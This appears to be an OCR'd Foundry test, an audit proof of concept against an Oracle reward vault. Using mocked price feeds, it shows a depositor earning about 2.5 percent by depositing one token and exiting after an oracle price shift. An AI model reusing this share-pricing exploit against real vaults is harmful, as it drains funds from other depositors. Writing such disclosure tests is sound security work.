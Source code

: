 ```
        ILBPair pair = ILBPair(address(new LBPairMock(tokenX, tokenY)));
        ERC20Mock rewardToken = new ERC20Mock("LUM", "LUM", 18);        ERC20Mock extraRewardToken = new ERC20Mock("SEA", "SEA", 18);
        VaultFactory localFactory = VaultFactory(            address(                new TransparentUpgradeableProxy(                    address(new VaultFactory(address(tokenX))),                    address(1),                    abi.encodeWithSelector(VaultFactory.initialize2.selector, address(this))                )            )        );
        // whitelist pair        address[] memory pairs = new address[](1);        pairs[0] = address(pair);        localFactory.setPairWhitelist(pairs, true);
        OracleRewardVault oracleRewardVault = new OracleRewardVault(localFactory);        localFactory.setVaultImplementation(IVaultFactory.VaultType.Oracle, address(oracleRewardVault));
        localFactory.setStrategyImplementation(IVaultFactory.StrategyType.Default, address(new StrategyMock()));
        localFactory.setPriceLens(IPriceLens(new PriceLensMock()));        localFactory.setFeeRecipient(treasury);

        IAggregatorV3X dfXv3 = new MockAggregatorX();        IAggregatorV3X dfYv3 = new MockAggregatorY();        address dfXx = address(dfXv3);        address dfYy = address(dfYv3);        IAggregatorV3 dfX = IAggregatorV3(dfXx);        IAggregatorV3 dfY = IAggregatorV3(dfYy);        // hoax(max, 75 ether);        (address vault, address strategy) = localFactory.createOracleVaultAndDefaultStrategy(pair, IAggregatorV3(dfX), IAggregatorV3(dfY));        // setting vault values        localFactory.setDatafeedHeartbeat(vault, 100, 100);        localFactory.setTwapInterval(vault, 120);        localFactory.enableTWAPPriceCheck(vault, true);        localFactory.setDeviationThreshold(vault, 5);
        // have to set it manuelly cause this is a clone        StrategyMock(strategy).setOperator(max);        StrategyMock(strategy).setRewardToken(rewardToken);        StrategyMock(strategy).setExtraRewardToken(extraRewardToken);        StrategyMock(strategy).setTokenX(tokenX);        StrategyMock(strategy).setTokenY(tokenY);

        // mint token mocking        tokenX.mint(bob, 20e18);        tokenY.mint(bob, 20e18);
        vm.startPrank(bob);        tokenX.approve(vault, type(uint256).max);        tokenY.approve(vault, type(uint256).max);

        tokenX.mint(alice, type(uint128).max);        tokenY.mint(alice, type(uint128).max);
        vm.startPrank(alice);        tokenX.approve(vault, type(uint256).max);        tokenY.approve(vault, type(uint256).max);
        vm.warp(17000000);        vm.startPrank(alice);        (uint256 Alice_shares,,) = IOracleVault(vault).deposit(1000000e18, 1000000e18, 0);// adding some deposits to the vault        // console2.log("Alice shares:", Alice_shares);        vm.stopPrank();

        (uint256 shares, uint256 effectiveX, uint256 effectiveY) = IOracleVault(vault).previewShares(0, 1e18);

        // depositing only TokenY and receive shares acoording to its value        vm.startPrank(bob);        (uint256 Bob_shares,,) = IOracleVault(vault).deposit(0, 1e18, 0);// adding some deposits to the vault        vm.stopPrank();
        //The price change        dfXv3.setPrice(1.05e18);        (uint256 shares_after_price_Change, uint256 effectiveX111, uint256 effectiveY111) = IOracleVault(vault).previewShares(0, 1e18);        console2.log("shares Before Price Change :", shares);        console2.log("shares After Price Change :", shares_after_price_Change);        console2.log("extra shares the user got : ", shares - shares_after_price_Change);
        // now when a user deposit with this price and then exit he will make profit receiving extra amount than he should        (uint256 amountX_Single_Deposit_before, uint256 amountY_Single_Deposit_before) = IBaseVault(vault).previewAmounts(Bob_shares);        console2.log("amountX the user received :", amountX_Single_Deposit_before);        console2.log("amountY the user received :", amountY_Single_Deposit_before);
        // calculating the user profit he entered with 1e18 tokenY and exit now has 1.025e18 tokenY making 2.5% profit        uint256 Total_received = amountX_Single_Deposit_before * 105/100 + amountY_Single_Deposit_before;
        // (uint256 amountX_Single_Deposit_After, uint256 amountY_Single_Deposit_After) = IBaseVault(vault).previewAmounts(shares_after_price_Change);        // console2.log("amountX After Price Change:", amountX_Single_Deposit_After);        // console2.log("amountY After Price Change:", amountY_Single_Deposit_After);
        console2.log("profit as token Y :", Total_received - 1e18);
```